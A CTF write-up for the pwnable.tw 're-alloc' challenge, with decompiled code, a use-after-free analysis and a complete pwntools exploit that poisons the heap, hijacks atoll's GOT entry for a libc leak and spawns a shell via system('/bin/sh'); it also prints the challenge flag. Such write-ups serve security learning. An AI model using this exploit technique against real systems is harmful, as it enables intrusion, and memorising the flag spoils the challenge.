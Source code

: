 ---
title: '[PWNABLE.TW] - re-alloc'
description: 'Re-alloc the world!'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-15
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: false
---



## Challenge Information
<Challenge
  category="pwn"
  points={100}
  description="I want to realloc my life :)"
  flag="FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}"
>
</Challenge>

## Reverse Engineering

```sh title="GDB"
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/re-alloc
$ checksec re-alloc
[*] '/mnt/e/sec/lab/pwnable.tw/re-alloc/re-alloc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    FORTIFY:    Enabled
    Stripped:   No
```

So as we can see, the binary is not stripped and has a canary. The binary is not PIE, so we can use absolute addresses. Let's dive into the code and analyze it.

<details id="">
<summary>allocate</summary>
<p>

```c
int allocate()
{
  _BYTE *v0; // rax
  unsigned __int64 index; // [rsp+0h] [rbp-20h]
  unsigned __int64 size; // [rsp+8h] [rbp-18h]
  void **v4; // [rsp+18h] [rbp-8h]

  printf("Index:");
  index = read_long();
  if ( index > 1 || (&heap)[index] )
  {
    LODWORD(v0) = puts("Invalid !");
  }
  else
  {
    printf("Size:");
    size = read_long();
    if ( size <= 0x78 )
    {
      v4 = (void **)realloc(0LL, size);
      if ( v4 )
      {
        (&heap)[index] = v4;
        printf("Data:");
        v0 = (char *)(&heap)[index] + read_input((__int64)(&heap)[index], (unsigned int)size);
        *v0 = 0;
      }
      else
      {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else
    {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```

</p>
</details>

<details id="">
<summary>reallocate</summary>
<p>

```c
int reallocate()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-18h]
  unsigned __int64 size; // [rsp+10h] [rbp-10h]
  void **v3; // [rsp+18h] [rbp-8h]

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !(&heap)[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = (void **)realloc((&heap)[v1], size);
  if ( !v3 )
    return puts("alloc error");
  (&heap)[v1] = v3;
  printf("Data:");
  return read_input((&heap)[v1], (unsigned int)size);
}
```

</p>
</details>

<details id="">
<summary>reallocate</summary>
<p>
```c
int rfree()
{
  void ***p_heap; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 )
  {
    LODWORD(p_heap) = puts("Invalid !");
  }
  else
  {
    realloc((&heap)[v2], 0LL);
    p_heap = &heap;
    (&heap)[v2] = 0LL;
  }
  return (int)p_heap;
}
```
</p>
</details>

There're 3 main functions in the binary: `allocate`, `reallocate`, and `rfree`. The first function allocates memory, the second one reallocates it, and the last one frees it. So, we can see all three functions are using a function called `realloc`, which is a standard C library function that changes the size of the memory block pointed to by a pointer. The `realloc` function takes two arguments: a pointer to the memory block to be resized and the new size in bytes. If the new size is larger than the old size, `realloc` may allocate a new memory block and copy the contents of the old block to the new one. If the new size is smaller, `realloc` may simply reduce the size of the existing block. But there're some special case here:
- When `size` is NULL (or zero), `realloc` will free that chunk
- When `ptr` is NULL, `realloc` will behave like `malloc`

In the case it frees the chunk, it will call `free` on the pointer passed to it. But the problem is it not clear the pointer that lead to `Use-After-Free` here.

## Exploit Strategies

So the binary have `Use-After-Free` bug in `reallocate` function by passing to `realloc` a size equal to zero. This will free the chunk, but the pointer is still pointing to the freed memory.
And becasue there is `Partial RELRO` we can overwrite the GOT entry. So my plan here is:

- Overwrite `atoll` GOT entry with `printf` address
- Do `Format String` attack to leak the libc base address
- Overwrite `atoll` GOT entry with `system` address
- Call `system("/bin/sh")` to get a shell

## Exploit

```py title="exploit.py"
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./re-alloc_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x4013F1
b *0x40155C
b *0x401632
b *0x40129D
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def alloc(idx, size, data):
    slna(b': ', 1)
    slna(b':', idx)
    slna(b':', size)
    sa(b':', data)

def realloc(idx, size, data):
    slna(b': ', 2)
    slna(b':',idx)
    slna(b':', size)
    sa(b':', data)

def realloc_free(idx):
    slna(b': ', 2)
    slna(b':',idx)
    slna(b':', b'0')

def rfree(idx):
    slna(b': ', 3)
    slna(b':', idx)

# ==================== EXPLOIT ====================

# realloc(ptr, 0) --> free(ptr)
# realloc(0, size) --> malloc(size)
# realloc(ptr, size) --> expand/shrink, do nothing if same size

# allocate() - use to allocate memory via realloc
# reallocate() - use to reallocate memory via realloc - lead to UAF if input size is 0
# rfree() - use to free memory via realloc - can be used to reset the index pointer

p = start()

alloc(0, 0x18, b'0')
realloc_free(0)
realloc(0, 0x18, p64(exe.got.atoll))
alloc(1, 0x18, b'1')

# Reset index 1
realloc(1, 0x28, b'1')
rfree(1)

realloc(0, 0x28, p64(exe.got.atoll))
alloc(1, 0x28, b'1')

# Reset index 0, 1
realloc(0, 64, b'0')
rfree(0)
realloc(1, 120, b'1')
rfree(1)

alloc(0, 0x20, p64(exe.plt.printf))

slna(b': ', 1)
sla(b':', b'%6$p')

libc.address = hexleak(rl()[:-1]) - 0x1e5760
success('libc base @ %#x', libc.address)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# printf return total bytes it print
sla(b'choice: ', b'1')
sa(b'Index:', b'A')
sa(b':',  b'A'*0x8 + b'\0')
sa(b':',  p64(libc.sym.system))

sla(b'choice: ', b'1')
s(b'/bin/sh\0')

interactive()
# FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
```
